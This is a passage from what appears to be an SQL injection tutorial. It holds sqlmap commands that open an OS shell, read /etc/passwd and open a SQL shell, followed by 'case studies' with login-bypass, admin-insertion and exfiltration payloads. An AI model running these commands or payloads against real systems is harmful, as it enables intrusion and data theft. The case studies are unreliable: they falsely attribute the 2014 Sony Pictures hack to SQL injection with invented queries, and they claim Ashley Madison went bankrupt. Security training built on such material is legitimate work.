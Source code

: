```bash
       --os-shell \
       --batch

# File system access
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       --file-read="/etc/passwd" \
       --batch

# SQL shell access
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       --sql-shell \
       --batch

echo "=== SQLMap Testing Complete ==="
```

## Industry Case Studies and Lessons Learned

### Case Study 4: Sony Pictures Hack (2014)

**Impact**: Complete corporate network compromise
**Attack Vector**: SQL injection in web application
**Data Compromised**: Emails, employee data, unreleased films
**Financial Impact**: $100+ million in damages

**Technical Analysis**:
```sql
-- Initial injection point
SELECT * FROM users WHERE username = 'admin' OR '1'='1' --' AND password = 'password'

-- Privilege escalation
'; INSERT INTO admin_users (username, password) VALUES ('hacker', 'password123'); --

-- Data exfiltration
'; SELECT email_content FROM executive_emails WHERE date > '2014-01-01'; --
```

**Lessons Learned**:
- Input validation must be comprehensive across all applications
- Database users should have minimal necessary privileges
- Network segmentation prevents lateral movement
- Incident response plans must include data breach scenarios

### Case Study 5: Ashley Madison Breach (2015)

**Impact**: 37 million user accounts compromised
**Attack Vector**: SQL injection in payment processing system
**Data Compromised**: Personal information, payment data, private messages
**Business Impact**: Company bankruptcy and lawsuits
